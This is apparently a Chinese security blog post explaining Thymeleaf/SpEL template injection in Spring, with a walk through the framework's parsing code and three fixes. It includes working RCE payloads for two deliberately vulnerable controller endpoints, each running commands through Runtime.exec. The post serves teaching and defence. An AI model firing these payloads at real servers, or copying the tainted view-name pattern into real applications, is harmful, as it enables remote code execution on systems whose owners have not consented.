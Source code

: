 ```yaml
---
title: Thymeleaf 模板注入
date: 2023/10/28 15:00:25
categories:
- Java
tags:
- 模板注入
---
```


# Thymeleaf 模板介绍

Thymeleaf 是一个跟 Velocity、FreeMarker 类似的模板引擎，它可以完全替代 JSP 。相较与其他的模板引擎，它有如下三个极吸引人的特点：

1. Thymeleaf 在有网络和无网络的环境下皆可运行，即它可以让美工在浏览器查看页面的静态效果，也可以让程序员在服务器查看带数据的动态页面效果。这是由于它支持 html 原型，然后在 html 标签里增加额外的属性来达到模板+数据的展示方式。浏览器解释 html 时会忽略未定义的标签属性，所以 thymeleaf 的模板可以静态地运行；当有数据返回到页面时，Thymeleaf 标签会动态地替换掉静态内容，使页面动态显示。
2. Thymeleaf 开箱即用的特性。它提供标准和spring标准两种方言，可以直接套用模板实现JSTL、 OGNL表达式效果，避免每天套模板、改jstl、改标签的困扰。同时开发人员也可以扩展和创建自定义的方言。
3. Thymeleaf 提供spring标准方言和一个与 SpringMVC 完美集成的可选模块，可以快速的实现表单绑定、属性编辑器、国际化等功能。



# Thymeleaf 模板使用

依赖

```xml
 <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
```

Controller

```java
@Controller
public class welcomeController {
	...
	@GetMapping("/path")
    public String path(@RequestParam String lang) {
        return "user/" + lang + "/welcome"; //template path is tainted
    }
    @GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
        //returns void, so view name is taken from URI
    }
}
```

相关解释

> @Controller 一般应用在有返回界面的应用场景下.例如，管理后台使用了 thymeleaf 作为模板开发，需要从后台直接返回 Model 对象到前台，那么这时候就需要使用 @Controller 来注解。
>
> 控制层处理完请求，返回视图名称，从而对应模板来渲染结果，比如
>
> `return "welcome"`→`resources/templates/welcome.html`
>
> `return "/user/en/welcome"`→`resources/templates/user.en/welcome.html`

模板放在`resources/templates`中

```html
<!DOCTYPE HTML>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<div th:fragment="header">
    <h3>Spring Boot Web Thymeleaf Example</h3>
</div>
<div th:fragment="main">meleaf
    <span th:text="'welcome, ' + ${message}"></span>
</div>
</html>
```





# Thymeleaf模版注入复现

[Spring ThymeleafView](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java)会使用表达式解析模版名称，若是将用户输入的参数拼接到模版路径中，可以造成表达式注入。

Demo代码[veracode-research/spring-view-manipulation: When MVC magic turns black (github.com)](https://github.com/veracode-research/spring-view-manipulation)

```java
@GetMapping("/path")
    public String path(@RequestParam String lang) {
        return "user/" + lang + "/welcome"; //template path is tainted
    }
```

![image-20231028113111914](../images/image-20231028113111914.png)

payload

```java
/path?lang=__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::.x
```

其中new了一个`java.util.Scanner`对象，用于读取字符。传入Scanner中的参数为`T(java.lang.Runtime).getRuntime().exec("id").getInputStream()`

`T( )`用于访问类作用域的方法和常量，这块是关于spel表达式的

> `java.util.Scanner`是可以省略的，它在此仅用于回显，无需回显时直接`T(java.lang.Runtime).getRuntime().exec("id")`执行命令即可。

`::`在此为必须，不然不会进入表达式解析过程，并且一定得在表达式后面。

`.x`在此处可忽略（`return "user/" + lang + "/welcome";`）

解析路径的代码在[ThymeleafView:277](https://github.com/thymeleaf/thymeleaf-spring/blob/74c4203bd5a2935ef5e571791c7f286e628b6c31/thymeleaf-spring3/src/main/java/org/thymeleaf/spring3/view/ThymeleafView.java#L277)，其中`viewTemplateName`中一定要包含`::`，不然不会进入表达式解析过程。

```java
if (!viewTemplateName.contains("::")) {
    // No fragment specified at the template name

    templateName = viewTemplateName;
    markupSelectors = null;

} else {
    // Template name contains a fragment name, so we should parse it as such

    final IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);

    final FragmentExpression fragmentExpression;
    try {
        // By parsing it as a standard expression, we might profit from the expression cache
        fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
    } catch (final TemplateProcessingException e) {
        throw new IllegalArgumentException("Invalid template name specification: '" + viewTemplateName + "'");
    }
```

跟进`parser.parseExpression`方法，在[StandardExpressionParser](https://github.com/thymeleaf/thymeleaf/blob/thymeleaf-3.0.11.RELEASE/src/main/java/org/thymeleaf/standard/expression/StandardExpressionParser.java#L113)中对`~{viewTemplateName}~`进行处理

```java
final String preprocessedInput =
    (preprocess? StandardExpressionPreprocessor.preprocess(context, input) : input);
```

继续跟进`StandardExpressionPreprocessor.preprocess`，在[StandardExpressionPreprocessor](https://github.com/thymeleaf/thymeleaf/blob/thymeleaf-3.0.11.RELEASE/src/main/java/org/thymeleaf/standard/expression/StandardExpressionPreprocessor.java#L80)中，使用正则表达式将路径中的表达式提取出来。其中正则规则：`\_\_(.*?)\_\_`（表示非贪婪匹配两个`__`之间的内容），匹配得到`${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}`

![debug-preprocess](../images/debug-preprocess.png)

提取表达式之后就是根据框架进行对应的表达式解析，这里是Spring所以用的就是SpringEL表达式解析。

```java
@GetMapping("/doc/{document}")
    public void getDocument(@PathVariable String document) {
        log.info("Retrieving " + document);
        //returns void, so view name is taken from URI
    }
```

> @PathVariable 处理请求 url 路径中的参数 /user/{id}

![image-20231028114216531](../images/image-20231028114216531.png)

payload

```java
/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x.x
```

这里要注意如果要有回显的话，需要在末尾再加上一个`.x`，原因是Spring分配URI时会自动抹去后缀名，导致缺少了`.x`，无法正常回显。再加一个`.x`就能正常回显。



# 漏洞修复

### 配置ResponseBody或RestController注解

> @ResponseBody注解告诉spring不再返回视图名称，而是直接返回值

```java
@GetMapping("/safe/fragment")
@ResponseBody
public String safeFragment(@RequestParam String section) {
        return "welcome :: " + section; //FP, as @ResponseBody annotation tells Spring to process the return values as body, instead of view name
}
```

### 通过redirect:

> 根据springboot定义，如果名称以`redirect:`开头，则不再调用`ThymeleafView`解析，调用`RedirectView`去解析`controller`的返回值

```java
 @GetMapping("/safe/redirect")
 public String redirect(@RequestParam String url) {
 return "redirect:" + url; //FP as redirects are not resolved as expressions
 }
```

### 方法参数中设置HttpServletResponse 参数

> 由于controller的参数被设置为HttpServletResponse，Spring认为它已经处理了HTTP
> Response，因此不会发生视图名称解析。
>
> **这里的前提条件是`returnValue`为空，所以这种修复方法只有在返回值为空的情况下才有效。**

```java
@GetMapping("/safe/doc/{document}")
public void getDocument(@PathVariable String document, HttpServletResponse response) {
	log.info("Retrieving " + document); //FP
}
```





# 总结

这个漏洞原理很简单，就是Thymeleaf的视图参数可进行表达式解析，若用户输入可控制视图参数，就会导致SpEL注入漏洞产生。

漏洞细节点是payload的构造，需要添加`__`和`::`引导表达式解析。